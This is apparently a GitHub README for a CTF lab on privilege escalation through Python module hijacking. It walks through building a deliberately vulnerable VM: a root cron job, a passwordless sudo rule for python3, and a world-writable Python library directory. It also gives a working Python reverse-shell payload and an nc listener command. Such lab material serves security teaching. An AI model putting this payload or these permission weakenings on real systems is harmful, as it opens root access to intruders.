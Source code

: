 # EncryptEdge RCSCTF

This repository contains details and code for the EncryptEdge RCSCTF Challenge No.3 Privilage Escalation part.

## Table of Contents
- [Introduction](#introduction)
- [Installation](#installation)
- [Usage](#usage)

## Introduction
This particular challenge is designed to showcase various Python libraries and demonstrate system administration tasks such as creating cron jobs and managing file permissions.

This challenge is based on the "Write Permissions on Imported Python Module"

We are intentionally giving the permissions of python library to user, And I have imported a custom library.

# Installation
> To get started with the challenge, follow these steps:

1. Clone the repository:
    ```shell
    git clone https://github.com/your-username/EncryptEdge-RCSCTF.git
    ```

2. Install the required Python libraries:
    ```
    pip install -r requirements.txt
    ```

# Usage

## Create a VM in any type-2 hyperviser 
> I used Ubuntu 22.04 LTS ISO image

> I used VMWare Workstation


## we need to put the hint.txt in the root home directory 

> This hint.txt is used by the script (i.e Fishy.py) runned by cron as root

> We can edit the script (Fishy.py) to mention the directory location in which we need to create a hint file like (youneedme.txt) to give a hint to user for exploitation.

> You can modify the locations of files as per needed.

## Checking Default Python Libraries
> To check the default Python libraries, run the following command:
```
python3 -c 'import sys; print("\n".join(sys.path))'
```
## Giving Least Privilages to user 

> I removed user from the "adm" and "sudo" groups

```sudo gpasswd -d (usernme) (groupname)```

## Viewing a particular user cronjob

```sudo crontab -l -u (username)```

## Create a System-wide Cronjob
> To create a system-wide cronjob that runs every 2 minutes, edit the /etc/crontab file:

```
sudo nano /etc/crontab
```

> Add the following line to run the Python script every 2 minutes:
```
*/2 * * * * /usr/bin/python3 /home/xavir/Fishy.py
```

## Editing Sudoers file 
> Open the sudoers file in a text editor with sudo privileges:

```sudo visudo```
> Add the following line at the end of the file:
```xavir ALL=(ALL) NOPASSWD: /usr/bin/python3.10```

> This will allow the user xavir to run /usr/bin/python3.10 as root without being asked for a password.

> Save the file and exit the text editor.

## Manage Access to Fishy.py
> To give only read access to Fishy.py to the user xavir, use the chmod and chown commands:

```
chown root:xavir /path/to/Fishy.py
chmod 640 /path/to/Fishy.py
```
## Manage access to custom python library
> To give only read and write access to demon.py to the user xavir, use the chmod and chown commands:

```
sudo chown -R xavir /usr/lib/python3.10
sudo chmod -R u+rw /usr/lib/python3.10
```

## View System-wide Cronjob
> To view the system-wide cronjob, use the following command:

```
cat /etc/crontab
```

## Implementing a Reverse Shell in Python 
> Editing custom library (i.e demon.py) which user has access to read and write and will upload the pyhton reverse shell

```nano /usr/lib/python3.10/demon.py```

```
#!/usr/bin/python3
from os import dup2
from subprocess import run
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 9001))
dup2(s.fileno(), 0)
dup2(s.fileno(), 1)
dup2(s.fileno(), 2)
run(["/bin/bash", "-i"])
```
## Getting the reverse shell 
> Start a listner on the host machine 

```nc -lvnp (port)```

> As the cronjob is running continuosly we will get the rev shell as soon as possible when the script is runned and a hint text file named youneedme.txt will be created in the used home directory.

> As our Cronjob script is runned by sudo privilages, the payload is executed by sudo privilages and hence we will get the root shell.


## This Privilage Escalation has three methods 
> 1. Method 1 [Write Permissions]

A vulnerability in a Python script that is caused by the permissions of the module file being imported. When the imported module file has permissions that allow any user to edit, it becomes a vulnerability. To understand the background and the permissions that can lead to a privilege escalation, the vulnerability is created in an Ubuntu environment and then exploited using Kali Linux.

> 2. Method 2 [Priority Order]

A vulnerability in a Python script that is caused by the priority order of the Python Library path. When a module is imported in a script, Python searches for the module file inside the default directories in a particular priority order. If there exists a Python module file in the same directory as the original script, it will get priority over the default paths. To understand how this can lead to a privilege escalation, the vulnerability is created in an Ubuntu environment and then exploited using Kali Linux.

> 3. Method 3 [PYTHONPATH Environment Variable]

This vulnerability is based on the Python Library that is searching through the Python PATH Environment Variable. This variable holds a list of directories where the python searches for the different directories for the imported modules. If an attacker can change or modify that variable then they can use it to elevate privileges on the target machine. To get a better understanding of what goes in the background, how can it lead to a privilege escalation we will first create the vulnerability in our ubuntu environment and then use Kali Linux to exploit this vulnerability. 